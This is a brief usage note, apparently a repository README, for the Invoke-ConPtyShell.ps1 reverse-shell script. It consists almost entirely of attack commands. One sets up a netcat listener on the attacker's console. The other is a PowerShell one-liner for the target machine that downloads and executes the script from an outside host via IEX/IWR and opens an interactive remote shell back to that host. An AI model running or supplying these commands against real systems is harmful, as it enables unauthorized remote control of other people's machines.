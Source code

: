 # How to use this scripts

## Invoke-ConPtyShell.ps1
On one console:
```
stty raw -echo; (stty size; cat) | nc -lvnp 3340
```

On the target machine
```
powershell.exe IEX(IWR http://10.10.15.156:8000/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.15.156 3340
```
